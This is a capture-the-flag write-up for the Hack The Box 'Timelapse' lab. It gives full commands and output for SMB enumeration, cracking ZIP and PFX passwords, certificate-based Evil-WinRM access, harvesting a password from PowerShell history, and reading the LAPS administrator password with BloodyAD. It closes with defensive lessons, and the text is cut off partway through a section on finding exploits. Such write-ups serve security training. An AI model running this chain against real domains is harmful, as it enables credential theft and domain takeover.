


# PLEASE CHECK OUT MY NEW SITE WHERE I HOST MY WRITEUPS https://daemon-sec.xyz/post/htb-timelapse


```
    ████████╗██╗███╗   ███╗███████╗██╗      █████╗ ██████╗ ███████╗███████╗
    ╚══██╔══╝██║████╗ ████║██╔════╝██║     ██╔══██╗██╔══██╗██╔════╝██╔════╝
       ██║   ██║██╔████╔██║█████╗  ██║     ███████║██████╔╝███████╗█████╗
       ██║   ██║██║╚██╔╝██║██╔══╝  ██║     ██╔══██║██╔═══╝ ╚════██║██╔══╝
       ██║   ██║██║ ╚═╝ ██║███████╗███████╗██║  ██║██║     ███████║███████╗
       ╚═╝   ╚═╝╚═╝     ╚═╝╚══════╝╚══════╝╚═╝  ╚═╝╚═╝     ╚══════╝╚══════╝

    ┌──────────────────────────────────────────────────────────────────────────────┐
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │░  ▄▄▄       ▄████▄  ▄▄▄█████▓ ██▓ ██▒   █▓▓█████    ▓█████▄  ██▓ ██▀███      ░│
    │░ ▒████▄    ▒██▀ ▀█  ▓  ██▒ ▓▒▓██▒▓██░   █▒▓█   ▀    ▒██▀ ██▌▓██▒▓██ ▒ ██▒    ░│
    │░ ▒██  ▀█▄  ▒▓█    ▄ ▒ ▓██░ ▒░▒██▒ ▓██  █▒░▒███      ░██   █▌▒██▒▓██ ░▄█ ▒    ░│
    │░ ░██▄▄▄▄██ ▒▓▓▄ ▄██▒░ ▓██▓ ░ ░██░  ▒██ █░░▒▓█  ▄    ░▓█▄   ▌░██░▒██▀▀█▄      ░│
    │░  ▓█   ▓██▒▒ ▓███▀ ░  ▒██▒ ░ ░██░   ▒▀█░  ░▒████▒   ░▒████▓ ░██░░██▓ ▒██▒    ░│
    │░  ▒▒   ▓▒█░░ ░▒ ▒  ░  ▒ ░░   ░▓     ░ ▐░  ░░ ▒░ ░    ▒▒▓  ▒ ░▓  ░ ▒▓ ░▒▓░    ░│
    │░   ▒   ▒▒ ░  ░  ▒       ░     ▒ ░   ░ ░░   ░ ░  ░    ░ ▒  ▒  ▒ ░  ░▒ ░ ▒░    ░│
    │░   ░   ▒   ░          ░       ▒ ░     ░░     ░       ░ ░  ░  ▒ ░  ░░   ░     ░│
    │░       ░  ░░ ░                ░        ░     ░  ░      ░     ░     ░         ░│
    │░           ░                          ░             ░                        ░│
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │            E X P L O I T A T I O N   //   A C T I V E   D I R E C T O R Y    │
    └──────────────────────────────────────────────────────────────────────────────┘
```

<div align="center">


</div>

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  ATTACK VECTORS                                                                  ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  [+] SMB Anonymous Share Enumeration                                             ║
║  [+] ZIP & PFX Password Cracking (John the Ripper)                               ║
║  [+] Certificate-Based WinRM Authentication (Evil-WinRM)                         ║
║  [+] PowerShell ConsoleHost History Mining                                       ║
║  [+] BloodHound Active Directory Attack Path Analysis                            ║
║  [+] LAPS Password Extraction via BloodyAD (LAPS_Readers Abuse)                  ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## TABLE OF CONTENTS

- [>_ TARGET ACQUISITION](#-target-acquisition)
- [>_ EXECUTIVE SUMMARY](#-executive-summary)
- [>_ TOOL ARSENAL](#-tool-arsenal)
- [>_ ATTACK PHASES OVERVIEW](#-attack-phases-overview)
- [>_ INITIAL RECONNAISSANCE](#-initial-reconnaissance)
- [>_ SMB ENUMERATION](#-smb-enumeration)
- [>_ CRACKING THE VAULT // ZIP & PFX](#-cracking-the-vault--zip--pfx)
- [>_ CERTIFICATE EXTRACTION // OPENSSL](#-certificate-extraction--openssl)
- [>_ FOOTHOLD // EVIL-WINRM](#-foothold--evil-winrm)
- [>_ POWERSHELL HISTORY MINING](#-powershell-history-mining)
- [>_ BLOODHOUND ENUMERATION](#-bloodhound-enumeration)
- [>_ LAPS EXTRACTION // BLOODYHOUND](#-laps-extraction--bloodyhound)
- [>_ ADMINISTRATOR ACCESS](#-administrator-access)
- [>_ CREDENTIALS VAULT](#-credentials-vault)
- [>_ FLAGS & PROOF OF COMPROMISE](#-flags--proof-of-compromise)
- [>_ MITRE ATT&CK MAPPING](#-mitre-attck-mapping)
- [>_ LESSONS LEARNED](#-lessons-learned)
- [>_ POC SEARCH METHODOLOGY](#-poc-search-methodology)

---

## >_ TARGET ACQUISITION

```
┌─────────────────────────────────────────────────────────────────────────────────┐
│  T A R G E T   I N F I L T R A T I O N   P A R A M E T E R S                   │
├─────────────────────────────────────────────────────────────────────────────────┤
│  IP ADDRESS........: 10.10.11.152                                               │
│  HOSTNAME..........: DC01.timelapse.htb                                         │
│  DOMAIN............: timelapse.htb                                              │
│  OPERATING SYSTEM..: Windows Server (Active Directory DC)                       │
│  DIFFICULTY........: Easy                                                       │
│  ATTACK SURFACE....: Active Directory Domain Controller                         │
│  KEY SERVICES......: SMB, LDAP, Kerberos, WinRM (SSL/5986)                      │
└─────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ EXECUTIVE SUMMARY

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  MISSION BRIEF                                                                   │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  Timelapse is an Easy Windows machine featuring a publicly accessible SMB share  │
│  containing a ZIP archive. The ZIP requires a password which is cracked with     │
│  John the Ripper, yielding a password-protected PFX file — also cracked via      │
│  John. OpenSSL extracts an SSL certificate and private key from the PFX, which   │
│  authenticate to WinRM as user legacyy.                                          │
│                                                                                  │
│  Post-exploitation reveals a PowerShell history file containing credentials for  │
│  svc_deploy. BloodHound analysis shows svc_deploy is a member of LAPS_Readers   │
│  — a group that can read locally managed admin passwords. BloodyAD extracts the  │
│  LAPS-managed Administrator password, granting full domain admin access.        │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ TOOL ARSENAL

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  T O O L S   D E P L O Y E D                                                     ║
╠══════════════════════╦═══════════════════════════════════════════════════════════╣
║  TOOL                ║  PURPOSE                                                  ║
╠══════════════════════╬═══════════════════════════════════════════════════════════╣
║  RustScan + Nmap     ║  Rapid port discovery + service fingerprinting            ║
║  smbclient           ║  SMB share enumeration and file retrieval                 ║
║  zip2john            ║  Extract crackable hash from ZIP archive                  ║
║  pfx2john            ║  Extract crackable hash from PFX certificate              ║
║  John the Ripper     ║  Offline password cracking (rockyou.txt)                  ║
║  OpenSSL             ║  Certificate and private key extraction from PFX          ║
║  Evil-WinRM          ║  Certificate-authenticated remote shell                   ║
║  bloodhound-ce-python║  Active Directory data collection for BloodHound CE       ║
║  BloodHound CE       ║  Attack path analysis and privilege escalation mapping    ║
║  BloodyAD            ║  LDAP-based LAPS password extraction                      ║
╚══════════════════════╩═══════════════════════════════════════════════════════════╝
```

---

## >_ ATTACK PHASES OVERVIEW

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  ATTACK PHASE TRACKER                                                            ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║                                                                                  ║
║  ◈ PHASE 1 // INITIAL ACCESS                                              [■■■]  ║
║    SMB Anonymous Access → winrm_backup.zip → ZIP Crack → PFX Crack              ║
║    → Certificate Extraction → WinRM Shell (legacyy)                             ║
║                                                                                  ║
║  ◈ PHASE 2 // FOOTHOLD & LATERAL MOVEMENT                                 [■■■]  ║
║    PS History Discovery → svc_deploy Credentials → Account Pivot                ║
║                                                                                  ║
║  ◈ PHASE 3 // PRIVILEGE ESCALATION                                        [■■■]  ║
║    BloodHound Enumeration → LAPS_Readers Group → BloodyAD → Admin Shell         ║
║                                                                                  ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                  ║
║   ◈  P H A S E   1   //   I N I T I A L   A C C E S S                           ║
║      SMB Infiltration  ──▶  Password Cracking  ──▶  Certificate Extraction      ║
║                                                                                  ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ INITIAL RECONNAISSANCE

### NETWORK SCANNING // RUSTSCAN + NMAP

The first phase of any engagement involves comprehensive port enumeration. RustScan provides rapid port discovery while Nmap performs deep service fingerprinting.

```bash
rustscan -a 10.10.11.152 --ulimit 5000 -r 1-65535 -- -sCV -oA HTB_LAB_AD_TIMELAPSE
```

> **Figure 1:** Full Nmap scan results against DC01.timelapse.htb

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPinP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
┌──────────────────────────────────────────────────────────────────────┐
│  KEY FINDINGS                                                        │
├──────────────────────────────────────────────────────────────────────┤
│  [+] Kerberos (88)   - Confirms Active Directory environment         │
│  [+] SMB (445)       - Potential anonymous share access              │
│  [+] WinRM (5986)    - SSL-wrapped remote shell (cert auth possible) │
│  [+] LDAP (389/636)  - Directory enumeration vectors                 │
│  [+] SMB Signing Required - Relay attacks mitigated                  │
└──────────────────────────────────────────────────────────────────────┘
```

**Critical Ports Identified:**

| Port | Service | Significance |
|------|---------|--------------|
| 88 | Kerberos | Authentication service — ticket attacks possible |
| 445 | SMB | File shares — target for anonymous enumeration |
| 5986 | WinRM (SSL) | Remote shell if certificates or credentials obtained |
| 389/636 | LDAP/LDAPS | Directory queries — user and group enumeration |

---

## >_ SMB ENUMERATION

### SHARE DISCOVERY // ANONYMOUS ACCESS

SMB shares are a common source of misplaced credentials, configuration files, and sensitive artifacts. Testing for unauthenticated (null/anonymous) access is always a critical first step.

```bash
smbclient -L //10.10.11.152
```

**Results:**

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Shares          Disk
SYSVOL          Disk      Logon server share
```

The non-default `Shares` share warrants immediate investigation — custom shares frequently contain sensitive content not intended for public access.

### ACCESSING THE SHARES SHARE

```bash
smbclient //timelapse.htb/Shares
smb: \> ls
smb: \> cd Dev
smb: \Dev\> ls
smb: \Dev\> get winrm_backup.zip
```

> **Figure 2:** Downloading winrm_backup.zip from the Dev directory


```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  ARTIFACT DISCOVERED                                                             ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  FILE: winrm_backup.zip                                                          ║
║  LOCATION: \\timelapse.htb\Shares\Dev\                                           ║
║  TYPE: Password-protected ZIP archive                                            ║
║  RISK: HIGH — contains authentication credentials for WinRM                     ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ CRACKING THE VAULT // ZIP & PFX

To access the PFX file inside the ZIP, we must crack both layers of password protection. John the Ripper handles this efficiently by first converting the protected files into crackable hash formats.

### STEP 1 — CRACK THE ZIP PASSWORD

```bash
zip2john winrm_backup.zip > zip_winrm.john

john zip_winrm.john --wordlist=/usr/share/wordlists/rockyou.txt
```

**Output:**

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2025-12-05 03:15) 4.000g/s 14155Kp/s 14155Kc/s
```

```bash
unzip winrm_backup.zip
# Password: supremelegacy
# Extracts: legacyy_dev_auth.pfx
```

### STEP 2 — CRACK THE PFX PASSWORD

> **Figure 3:** Identifying the PFX as password-protected before cracking


```bash
pfx2john legacyy_dev_auth.pfx > pfx.john

john pfx.john --wordlist=/usr/share/wordlists/rockyou.txt
```

**Output:**

```
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Will run 4 OpenMP threads
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:01:38 DONE (2025-12-05 04:11) 0.01013g/s 32749p/s
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  PASSWORDS CRACKED                                                               ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  ZIP ARCHIVE...: winrm_backup.zip       PASSWORD: supremelegacy                 ║
║  PFX FILE......: legacyy_dev_auth.pfx   PASSWORD: thuglegacy                   ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ CERTIFICATE EXTRACTION // OPENSSL

With the PFX password recovered, OpenSSL extracts the SSL certificate and private key required for WinRM certificate-based authentication.

```bash
# Extract the private key (no passphrase on output)
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

# Extract the certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

Both commands prompt for the PFX password: `thuglegacy`

```
┌──────────────────────────────────────────────────────────────────────┐
│  EXTRACTION COMPLETE                                                 │
├──────────────────────────────────────────────────────────────────────┤
│  [+] cert.pem    SSL certificate for legacyy                        │
│  [+] key.pem     Private key for legacyy                            │
│  [+] Auth target: DC01.timelapse.htb:5986 (WinRM over SSL)          │
└──────────────────────────────────────────────────────────────────────┘
```

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                  ║
║   ◈  P H A S E   2   //   F O O T H O L D   &   L A T E R A L   M O V E M E N T ║
║      Certificate Auth  ──▶  PS History Mining  ──▶  svc_deploy Pivot            ║
║                                                                                  ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ FOOTHOLD // EVIL-WINRM

Using the extracted certificate and key, authenticate to WinRM over SSL as user `legacyy`. The `-S` flag forces SSL mode on port 5986.

```bash
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
```

> **Figure 4:** Evil-WinRM shell obtained as legacyy via certificate authentication


```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  SHELL ESTABLISHED                                                               ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USER......: legacyy                                                             ║
║  HOST......: DC01.timelapse.htb                                                  ║
║  METHOD....: Certificate-Based WinRM (SSL/5986)                                 ║
║  SHELL.....: Evil-WinRM                                                          ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ POWERSHELL HISTORY MINING

PowerShell's `PSReadLine` module logs all commands entered during interactive sessions to a history file. This file frequently contains credentials typed directly into the console — a common operational security failure on Windows systems.

When performing post-exploitation on a Windows host, always check this location as part of your enumeration checklist.

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> **Figure 5:** ConsoleHost_history.txt reveals credentials for svc_deploy


```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  CREDENTIAL DISCOVERED IN POWERSHELL HISTORY                                     ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME..: svc_deploy                                                          ║
║  PASSWORD..: E3R$Q62^12p7PLlC%KWaxuaV                                            ║
║  SOURCE....: ConsoleHost_history.txt (PSReadLine)                                ║
║  RISK......: CRITICAL — service account with LAPS read permissions               ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                  ║
║   ◈  P H A S E   3   //   P R I V I L E G E   E S C A L A T I O N              ║
║      BloodHound Analysis  ──▶  LAPS_Readers Abuse  ──▶  Domain Admin            ║
║                                                                                  ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ BLOODHOUND ENUMERATION

With valid credentials for `svc_deploy`, collect full Active Directory data using BloodHound-CE Python. This maps all trust relationships, group memberships, and ACL permissions — revealing hidden privilege escalation paths.

```bash
bloodhound-ce-python -c all \
  -u svc_deploy \
  -p 'E3R$Q62^12p7PLlC%KWaxuaV' \
  -d timelapse.htb \
  -ns 10.10.11.152 \
  --zip
```

Upload the resulting ZIP to BloodHound Community Edition and search for `svc_deploy`.

> **Figure 6:** BloodHound graph reveals svc_deploy's membership in LAPS_Readers



```
┌──────────────────────────────────────────────────────────────────────┐
│  ATTACK PATH IDENTIFIED                                              │
├──────────────────────────────────────────────────────────────────────┤
│  svc_deploy@TIMELAPSE.HTB                                            │
│       │                                                              │
│       └──[MemberOf]──> LAPS_READERS@TIMELAPSE.HTB                   │
│                              │                                       │
│                              └──[ReadLAPSPassword]──> DC01$          │
│                                                          │           │
│                                                          └──> Admin  │
└──────────────────────────────────────────────────────────────────────┘
```

The `LAPS_Readers` group has the right to read the `ms-Mcs-AdmPwd` LDAP attribute on managed computer accounts. This attribute contains the current auto-rotated local administrator password managed by Microsoft LAPS.

---

## >_ LAPS EXTRACTION // BLOODYHOUND

BloodyAD performs LDAP operations against Active Directory — including reading LAPS-managed passwords from the `ms-Mcs-AdmPwd` attribute on machine accounts.

```bash
bloodyAD \
  --host 10.10.11.152 \
  -d timelapse.htb \
  -u svc_deploy \
  -p 'E3R$Q62^12p7PLlC%KWaxuaV' \
  get object 'DC01$' \
  --attr ms-Mcs-AdmPwd
```

> **Figure 7:** BloodyAD successfully reads the LAPS-managed Administrator password


```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  LAPS PASSWORD EXTRACTED                                                         ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  COMPUTER OBJECT..: DC01$                                                        ║
║  ATTRIBUTE........: ms-Mcs-AdmPwd                                                ║
║  ADMINISTRATOR....: Administrator@timelapse.htb                                 ║
║  NOTE.............: LAPS passwords auto-rotate — capture before timeout         ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ ADMINISTRATOR ACCESS

With the LAPS-managed Administrator password retrieved, establish a privileged WinRM session as the Domain Administrator.

```bash
evil-winrm -i 10.10.11.152 -u administrator -p "<LAPS_PASSWORD>" -S
```

> **Figure 8:** Full Domain Administrator shell obtained on DC01



---

## >_ CREDENTIALS VAULT

```
╔═════════════════════════════════════════════════════════════════════════════════════════════════╗
║  E X F I L T R A T E D   C R E D E N T I A L S                                                 ║
╠════════════════╦═══════════════════╦══════════════════════════════╦══════════════════════════════╣
║  TYPE          ║  USERNAME         ║  PASSWORD / SECRET           ║  SOURCE                      ║
╠════════════════╬═══════════════════╬══════════════════════════════╬══════════════════════════════╣
║  ZIP Archive   ║  —                ║  supremelegacy               ║  John the Ripper (rockyou)   ║
║  PFX Cert      ║  legacyy          ║  thuglegacy                  ║  John the Ripper (rockyou)   ║
║  WinRM Cert    ║  legacyy          ║  legacyy_dev_auth.pfx        ║  SMB Share (Dev/)            ║
║  Domain User   ║  svc_deploy       ║  E3R$Q62^12p7PLlC%KWaxuaV   ║  PS ConsoleHost_history.txt  ║
║  LAPS          ║  Administrator    ║  <LAPS ROTATES — see figure> ║  BloodyAD ms-Mcs-AdmPwd      ║
╚════════════════╩═══════════════════╩══════════════════════════════╩══════════════════════════════╝
```

---

## >_ FLAGS & PROOF OF COMPROMISE

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██╗   ██╗███████╗███████╗██████╗     ███████╗██╗      █████╗  ██████╗           ║
║   ██║   ██║██╔════╝██╔════╝██╔══██╗    ██╔════╝██║     ██╔══██╗██╔════╝           ║
║   ██║   ██║███████╗█████╗  ██████╔╝    █████╗  ██║     ███████║██║  ███╗          ║
║   ██║   ██║╚════██║██╔══╝  ██╔══██╗    ██╔══╝  ██║     ██╔══██║██║   ██║          ║
║   ╚██████╔╝███████║███████╗██║  ██║    ██║     ███████╗██║  ██║╚██████╔╝          ║
║    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝    ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝           ║
║                                                                                   ║
║   LOCATION: C:\Users\legacyy\Desktop\user.txt                                    ║
║   FLAG: HTB{********_REDACTED_********}                                           ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝

╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██████╗  ██████╗  ██████╗ ████████╗    ███████╗██╗      █████╗  ██████╗         ║
║   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝    ██╔════╝██║     ██╔══██╗██╔════╝         ║
║   ██████╔╝██║   ██║██║   ██║   ██║       █████╗  ██║     ███████║██║  ███╗        ║
║   ██╔══██╗██║   ██║██║   ██║   ██║       ██╔══╝  ██║     ██╔══██║██║   ██║        ║
║   ██║  ██║╚██████╔╝╚██████╔╝   ██║       ██║     ███████╗██║  ██║╚██████╔╝        ║
║   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝       ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝         ║
║                                                                                   ║
║   LOCATION: C:\Users\Administrator\Desktop\root.txt                               ║
║   FLAG: HTB{********_REDACTED_********}                                           ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ███████╗██╗   ██╗███████╗████████╗███████╗███╗   ███╗                           ║
║   ██╔════╝╚██╗ ██╔╝██╔════╝╚══██╔══╝██╔════╝████╗ ████║                           ║
║   ███████╗ ╚████╔╝ ███████╗   ██║   █████╗  ██╔████╔██║                           ║
║   ╚════██║  ╚██╔╝  ╚════██║   ██║   ██╔══╝  ██║╚██╔╝██║                           ║
║   ███████║   ██║   ███████║   ██║   ███████╗██║ ╚═╝ ██║                           ║
║   ╚══════╝   ╚═╝   ╚══════╝   ╚═╝   ╚══════╝╚═╝     ╚═╝                           ║
║                                                                                   ║
║   C:\Windows\system32> whoami                                                     ║
║   timelapse\administrator                                                         ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

---

## >_ MITRE ATT&CK MAPPING

| Tactic | Technique ID | Technique Name | Implementation |
|--------|--------------|----------------|----------------|
| **Reconnaissance** | T1595.002 | Active Scanning: Vulnerability Scanning | RustScan + Nmap service enumeration |
| **Initial Access** | T1078.001 | Valid Accounts: Default Accounts | Certificate-based WinRM authentication |
| **Credential Access** | T1110.002 | Brute Force: Password Cracking | John the Ripper on ZIP and PFX hashes |
| **Credential Access** | T1552.004 | Unsecured Credentials: Private Keys | PFX file with weak password on SMB share |
| **Credential Access** | T1552.001 | Unsecured Credentials: Credentials In Files | Password found in PSReadLine history |
| **Discovery** | T1083 | File and Directory Discovery | ConsoleHost_history.txt enumeration |
| **Discovery** | T1087.002 | Account Discovery: Domain Account | BloodHound + LDAP user/group enumeration |
| **Discovery** | T1069.002 | Permission Groups Discovery: Domain Groups | BloodHound LAPS_Readers identification |
| **Lateral Movement** | T1021.006 | Remote Services: Windows Remote Management | Evil-WinRM certificate auth (legacyy) |
| **Privilege Escalation** | T1555 | Credentials from Password Stores | LAPS ms-Mcs-AdmPwd attribute extraction |
| **Defense Evasion** | T1078.002 | Valid Accounts: Domain Accounts | svc_deploy account pivot via LAPS |

---

## >_ LESSONS LEARNED

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  SECURITY RECOMMENDATIONS                                                        │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] RESTRICT SMB SHARE PERMISSIONS                                              │
│      - Disable anonymous/null session access to non-essential shares             │
│      - Never place authentication credentials in developer shares                │
│      - Audit custom shares for sensitive files on a regular basis                │
│                                                                                  │
│  [2] PROTECT CERTIFICATE FILES                                                   │
│      - PFX files should never be stored on network shares                        │
│      - Enforce strong, unique passwords on all PFX/P12 archives                  │
│      - Consider hardware-backed key storage (TPM, smart cards)                   │
│                                                                                  │
│  [3] POWERSHELL HISTORY HYGIENE                                                  │
│      - Train users and admins never to type credentials into consoles            │
│      - Clear PSReadLine history regularly: Remove-Item ConsoleHost_history.txt   │
│      - Enable Protected Event Logging to audit PowerShell execution              │
│                                                                                  │
│  [4] RESTRICT LAPS_READERS MEMBERSHIP                                            │
│      - Regularly audit the LAPS_Readers group — membership should be minimal     │
│      - Service accounts should not have LAPS read permissions                    │
│      - Monitor for BloodyAD-style LDAP attribute queries on ms-Mcs-AdmPwd        │
│                                                                                  │
│  [5] MONITOR WINRM CERTIFICATE AUTHENTICATION                                    │
│      - Alert on WinRM certificate auth events (Event ID 4624 / Logon Type 8)    │
│      - Track PFX/certificate deployment and revoke unused certificates           │
│      - Require MFA for WinRM access where possible                               │
│                                                                                  │
└──────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ POC SEARCH METHODOLOGY

```
┌──────────────────────────────────────────────────────────────────────────────────┐
│  HOW TO FIND EXPLOITS & POC SCRIPTS                                              │
├──────────────────────────────────────────────────────────────────────────────────┤
│                                                                                  │
│  [1] IDENTIFY VERSION                                                            │
│      ▸ Use nmap, nxc to fingerprint OS and services                              │
│      ▸ Check LDAP/SMB banners for Windows version                                │
│      ▸ Example: Windows Server (DC01.timelapse.htb)                              │
│                                                                                  │
│  [2] SEARCH EXPLOIT-DB / SEARCHSPLOIT                                            │
│      ▸ searchsploit windows server winrm                                         │
│      ▸ searchsploit pfx certificate                                              │
│      ▸ searchsploit laps active directory                                        │
│      ▸ https://www.exploit-db.com/                                               │
│                                                                                  │
│  [3] SEARCH CVE DATABASES                                                        │
│      ▸ https://nvd.nist.gov/ (NIST National Vulnerability Database)              │
